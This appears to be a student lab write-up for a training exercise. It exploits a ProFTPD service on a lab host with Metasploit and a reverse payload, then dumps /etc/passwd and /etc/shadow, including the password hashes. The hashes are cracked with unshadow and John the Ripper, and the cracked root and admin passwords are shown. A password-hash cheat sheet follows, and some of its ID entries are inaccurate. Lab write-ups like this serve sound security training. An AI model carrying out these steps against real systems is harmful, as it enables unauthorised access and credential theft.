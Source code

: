 # Steps for lab 3

## Step 1 - Get into target machine

### Step 1.1 - Use msfconsole

```bash
msfconsole
```

### Step 1.2 - Use ProFTPD

```bash
search ProFTPD
use 5
```

### Step 1.3 - Set RHOST and payload

```bash
set RHOSTS 10.5.0.254
run
set payload 5
set LHOST 10.5.0.1
run
```

### Step 1.4 - Check username

```bash
whoami
```

```bash
root
```

### Step 1.5 - Copy the /etc/passwd and /etc/shadow

```bash
cat /etc/passwd
```

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash
```

```bash
cat /etc/shadow
```

```bash
root:$y$j9T$GWXWlbPiR.YBznBxQpS301$hVa4gidXVcFH/0m.rL1aW1VEqkVqic/E.lRj.wJBOeD:19268:0:99999:7:::
daemon:*:19247:0:99999:7:::
bin:*:19247:0:99999:7:::
sys:*:19247:0:99999:7:::
sync:*:19247:0:99999:7:::
games:*:19247:0:99999:7:::
man:*:19247:0:99999:7:::
lp:*:19247:0:99999:7:::
mail:*:19247:0:99999:7:::
news:*:19247:0:99999:7:::
uucp:*:19247:0:99999:7:::
proxy:*:19247:0:99999:7:::
www-data:*:19247:0:99999:7:::
backup:*:19247:0:99999:7:::
list:*:19247:0:99999:7:::
irc:*:19247:0:99999:7:::
gnats:*:19247:0:99999:7:::
nobody:*:19247:0:99999:7:::
_apt:*:19247:0:99999:7:::
systemd-network:*:19268:0:99999:7:::
systemd-resolve:*:19268:0:99999:7:::
messagebus:*:19268:0:99999:7:::
systemd-timesync:*:19268:0:99999:7:::
sshd:*:19268:0:99999:7:::
admin:$y$j9T$Yaz43eoUN1NuXP7TFkdfK.$Xq1oDzJ8GsDNaMc/qSk1DacGMqIsTRdP3MjhQQQdZ35:19268:0:99999:7:::
```

## Step 2 - Cracking password

### Step 2.1 - Paste the /etc/passwd and /etc/shadow

```bash
touch passwd.txt
nano passwd.txt
touch shadow.txt
nano shadow.txt
```

### Step 2.2 Use unshadow

```bash
unshadow passwd.txt shadow.txt > crack.db
cat crack.db
```

```bash
root:$y$j9T$GWXWlbPiR.YBznBxQpS301$hVa4gidXVcFH/0m.rL1aW1VEqkVqic/E.lRj.wJBOeD:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/usr/sbin/nologin
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:*:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:*:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:*:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:*:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:*:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:*:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:*:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:*:105:65534::/run/sshd:/usr/sbin/nologin
admin:$y$j9T$Yaz43eoUN1NuXP7TFkdfK.$Xq1oDzJ8GsDNaMc/qSk1DacGMqIsTRdP3MjhQQQdZ35:1000:1000::/home/admin:/bin/bash
```

### Step 2.3 Use john with --format=crypt as the method was $y$

```bash
john crack.db --format=crypt
```

```bash
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
toor             (root)
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
secret           (admin)
2g 0:00:00:18 DONE 2/3 (2023-04-03 02:55) 0.1079g/s 60.42p/s 60.47c/s 60.47C/s 123456..pepper
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### Step 2.4 Show the cracked password

```bash
john -show crack.db
```

```bash
root:toor:0:0:root:/root:/bin/bash
admin:secret:1000:1000::/home/admin:/bin/bash
```

- The password for root user: toor
- The password for admin user: secret

## Password hash cheatsheet

1. Format

    ```bash
    $id$salt$hashed
    ```

2. ID table

    ```bash
    $1 - MD5
    $2a - Blowfish
    $4 - SHA256
    $5 - SHA512
    $7 - Yescrypt
    $y - Yescrypt
    ```

## Terminal output

- [tmux session 1](tmux1.txt)

- [tmux session 2](tmux2.txt)
